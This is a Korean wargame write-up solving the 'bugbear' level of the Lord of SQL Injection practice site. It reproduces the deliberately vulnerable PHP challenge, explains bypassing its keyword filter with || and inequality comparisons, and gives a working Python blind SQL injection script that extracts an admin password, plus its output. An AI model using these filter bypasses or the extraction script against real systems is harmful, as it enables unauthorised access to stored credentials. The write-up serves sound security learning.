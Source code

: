 ```yaml
---
title: "[Lord of SQL Injection] LoS - bugbear 문제풀이"
date: 2018-08-01
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번 문제는 `생각 전환`의 필요성에서 살짝 느꼈던 문제였다.
뭔가 허점을 찌르는 느낌이었다.
`bugbear`라는 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='' and no=
------------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

필터링을 보면 뭔가 굉장히 빡세게 걸려있다.
이 전 문제들에서 사용했던 것들이 대부분 막혀있다.
하지만 다행인건, `&&`와 `||`은 사용할 수 있다는 것이다.
그래도 아직 `like`과 `=`를 사용할 수 없기 때문에 비교를 할 수 없다.
아니 정정하자면, `같은지` 비교를 할 수 없다.  

그럼 반면, 내가 입력한 값보다 `큰지 혹은 작은지`는 비교할 수 있다.
이 때문에 나는 `부등호`를 사용해서 문제를 풀었다.
내가 많이 고민했던 부분은 `id='admin'`을 사용할 수 없다는 점이었다.
`admin`의 `pw`를 출력하긴 해야 하는데, `id='admin'`을 그 어떤 방법으로도 비교할 수 없어 보였다.

그래서 `부등호를 사용해 비교할 수 있는 값`에 초점을 맞추어 다시 문제를 보았다.
그러다 눈에 띈 것이 `no`였다.
아마도 다른 문제들처럼, 각각의 계정에 `no` 값이 부여되어 있을 것이다.
때문에 부등호를 이용 해 `no`를 비교한다면, `id`가 `admin`인 행을 구할 수 있지 않을까 생각했다.
이를 확인하기 위해 아래와 같이 입력 해 보았다.  

```plain
?pw=1&no=1||no<2
```

그랬더니 `Hello guest`가 출력되었다.
이것저것 시도 해 보니, `?pw=1&no=1||no>1`을 입력하니 `Hello admin`을 얻을 수 있었다.
일단 `id`가 `admin`인 행을 구할 수 있으니, `pw`의 길이와 값은 이 전 문제와 동일하게 `length()`와 `min()`를 사용하고, 부등호를 통해 비교하게 하면 될 것이다.
또한 만약 `Hello admin`이 출력 된다면 그 값이 아니라 `해당 값 - 1`을 길이 혹은 pw의 일부라고 생각하면 된다.
이를 토대로 아래와 같이 코드를 구현했다.  

```python
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?pw=1&no=0||no"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + ">1%26%26length(pw)<" + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i - 1
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + ">1%26%26mid(pw," + str(j) + ",1)<char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i - 1)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

너무 한번에 결과가 나와서 당황했는데, 다행히 제대로 된 `pw`를 얻을 수 있었다.  

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 52
[+] Found 3 : 52D
[+] Found 4 : 52DC
[+] Found 5 : 52DC3
[+] Found 6 : 52DC39
[+] Found 7 : 52DC399
[+] Found 8 : 52DC3991
[+] Found password :  52DC3991
[+] End
```

이전 문제들처럼 알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```plain
?pw=52dc3991
```

---

```php
------------------------------------------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='52dc3991' and no=
------------------------------------------------------------------------------------------------------------

BUGBEAR Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
BUGBEAR Clear!!
```